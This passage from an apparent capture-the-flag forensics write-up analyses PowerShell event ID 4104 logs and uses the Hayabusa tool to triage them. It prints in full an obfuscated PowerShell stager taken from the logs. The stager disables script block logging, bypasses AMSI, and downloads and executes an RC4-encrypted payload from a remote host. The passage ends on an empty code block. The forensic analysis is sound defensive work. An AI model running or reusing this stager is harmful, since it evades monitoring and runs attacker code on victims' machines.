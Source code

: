 Moving on, we have 16 records but only interested in those that contain event id 4104

> _The event ID 4104 refers to the execution of a remote PowerShell command. This is a malicious event where the code attempts to retrieve instructions from the internet._

![image](https://user-images.githubusercontent.com/58165365/192338901-893f5820-8c8a-4d9d-8518-caa972e8c2ec.png)

All three events contained similar scriptblocks.

```powershell
Creating Scriptblock text (1 of 1):
If($PSVERSiOnTAblE.PSVerSIOn.MajOr -gE 3){$f0C32=[ref].ASseMBLy.GEtTyPE('System.Management.Automation.Utils')."GETFiE`LD"('cachedGroupPolicySettings','N'+'onPublic,Static');If($f0C32){$eA761=$f0c32.GetVaLuE($NULL);IF($Ea761['ScriptB'+'lockLogging']){$Ea761['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$eA761['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECtiONs.GeNEric.DIctioNAry[strIng,SystEm.ObJEct]]::neW();$vAL.ADd('EnableScriptB'+'lockLogging',0);$VaL.AdD('EnableScriptBlockInvocationLogging',0);$eA761['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$Val}ELsE{[SCriPTBlOCK]."GETFIe`LD"('signatures','N'+'onPublic,Static').SeTVAlUE($NULl,(New-ObjECT COllECtIONs.GeneRiC.HAshSet[StRiNG]))}$Ref=[ReF].ASsEmbLY.GetTyPE('System.Management.Automation.Amsi'+'Utils');$ReF.GEtFIelD('amsiInitF'+'ailed','NonPublic,Static').SETVALUe($nULL,$TRUe);};[SYStEm.Net.ServiCePOintMaNagER]::ExpECt100ConTinuE=0;$B3904=New-OBjECT SYsTEM.Net.WEbClIent;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TexT.EncODinG]::UNICOdE.GETStRiNg([CONvErt]::FrOMBaSe64StRING('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMAAuADIANwA6ADcANwA3ADcA')));$t='/news.php';$B3904.HEadErS.AdD('User-Agent',$u);$b3904.PROXY=[SYSTeM.NEt.WebREQuESt]::DefaUlTWebPrOxY;$B3904.Proxy.CredeNTIalS = [SySTeM.NEt.CREdEntIaLCAChe]::DEFAuLtNETworKCreDEntIals;$Script:Proxy = $b3904.Proxy;$K=[SysteM.Text.ENCoDInG]::ASCII.GEtBYtes('/Y0dzf;_)NkL^~M#K(xG]*rOFe,C}2%R');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H])%256]}};$B3904.HeaderS.ADD("Cookie","lvzoFoofzAIvDVtv=R7eEC+1KSXf3X+sUQhz2DF+NSjQ=");$DATa=$b3904.DOWnLOAdDATA($SEr+$T);$iv=$Data[0..3];$dATa=$DaTA[4..$data.LenGTh];-Join[CHAr[]](& $R $DatA ($IV+$K))|IEX
```

Since i'm not that profficient with Powershell, i decided to poke around with yet another tool called [Hayabusa (隼)](https://github.com/Yamato-Security/hayabusa), a sigma-based threat hunting and fast forensics timeline generator for Windows event logs.

![image](https://user-images.githubusercontent.com/58165365/192407797-0945ccf1-1443-4f5f-9901-54b5ed11d56c.png)

From the results, atleast we have a general feel of what the script blocks does. For instance they are flagged as either:

- Potentially Malicious PwSh
- Suspicious PowerShell Invocations - Specific
- Windows PowerShell Web Request
- PwSh Scriptblock Log

It also gives you a nice summary(especially if you are analyzing many event log files).Hayabusa is just crazy awesome and hope to cover it in depth in subsequent blogs.

![ductf](../../assets/img/Posts/DUCTF/resultsummary.png)

Anyway, i went ahead and cleaned it ABIT for easier readability:

```powershell
```